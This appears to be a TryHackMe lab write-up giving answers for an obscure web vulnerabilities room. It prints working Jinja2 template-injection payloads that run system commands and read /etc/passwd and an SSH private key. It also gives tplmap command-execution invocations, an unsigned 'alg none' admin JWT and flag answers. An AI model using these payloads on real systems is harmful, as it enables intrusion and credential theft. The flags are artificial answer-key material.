 # TryHackMe ZTH: Obscure Web Vulns

> Saikat Karmakar | Jul 31 : 2021

---


## Task 4

1. How would a hacker(you :) ) cat out /etc/passwd on the server(using cat with the rce payload)
```
{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
```
2. What about reading in the contents of the user test's private ssh key.(use the read file one not the rce one)
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(/home/test/.ssh/id_rsa).read()}} 
```

## Task 5

1. How would I cat out /etc/passwd using tplmap on the ip:port combo 10.10.10.10:5000, with the vulnerable param "noot".
```
tplmap.py -u http://10.10.10.10:5000/ -d "noot" --os-cmd "cat /etc/passwd"
```

## Task 6

1. What is the flag?
- with tplmap
```py
tplmap.py -u http://10.10.253.34/ -d "name" --os-cmd "cat /flag"
```
- manually
```py
{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```
```
cooctus 
```


## Task 9
1. What parameter allows us to generate a POC(actual exploit)
```
--malicious
```

## Task 14

1. What is the flag?
```
nootnootisthebestflag
```

## Task 18

1. What is the flag?
```
supernootnoot // eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjI3ODgyMDQ2Mzg5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzkyLjAuNDUxNS4xMTUgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYyNzg4MjA0Nn0.
```

## Task 22

1. How many users are on the system?
```
31
```
2. What is the name of the user with a UID of 1000?
```
para
```

## Task 25

1. What is the secret?
```
pass
```


